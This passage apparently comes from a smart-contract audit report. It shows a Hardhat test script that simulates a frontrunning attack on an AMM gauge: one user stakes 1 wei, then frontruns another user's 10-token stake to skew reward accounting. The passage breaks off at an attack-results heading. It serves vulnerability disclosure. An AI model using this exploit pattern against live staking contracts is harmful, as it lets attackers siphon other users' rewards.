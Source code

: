             const unstake = async (to, amount) => {
                await updateStates()
                console.log(" ")
                // Balance before
                let balanceBefore = await this.ammgauge.balances(to.address);
                // Stake
                await this.ammgauge.connect(to).unstake(amount);
                expect(await this.ammgauge.balances(to.address)).to.be.eq(balanceBefore.sub(amount));
                await updateStates();
                console.log(" ")
            }

            // HERE IS WHERE THE SIMULATION IS PERFORMED
            let simulationTimes = 2;
            let withOneWeiDeposit = true;

            if (withOneWeiDeposit) {
                // Alice deposits first
                console.log("Alice Deposits 1wei")
                let firstUserDeposit = ethers.utils.parseEther("1");
                await stake(alice, 1);
            }

            for (let index = 1; index <= simulationTimes; index++) {
                console.log(" ")
                console.log(`Loop number ${index}`);
                console.log(" ")

                console.log("A day passes until Bob decides to deposit")
                await ethers.provider.send("evm_increaseTime", [1 * 24 * 60 * 60]); // 1 days

                console.log(" ")
                console.log("She scans that Bob is about to stake 10. So decides to frontrun him.")
                console.log("Alice Frontruns")
                let frontrunAmount = ethers.utils.parseEther("10");
                await stake(alice, frontrunAmount);

                console.log(" ")
                console.log("Bob stakes 10 tokens")
                await stake(bob, frontrunAmount)

                // A few days pass
                await ethers.provider.send("evm_increaseTime", [1 * 24 * 60 * 60]); // 2 days
                // The pool is checkpointed
                await this.ammgauge.poolCheckpoint();
                console.log("After 1 day the pool is checkpointed")
                await updateStates()

            }
        })

The simulation was both made for the attacked and non attacked situations.
The values that are shown represent how the contract updates them (the `totalStaked` variable is 0 when first Alice calls the stake function after `_userCheckpoint()` rans)

#### WITH 1WEI STAKE (ATTACK)
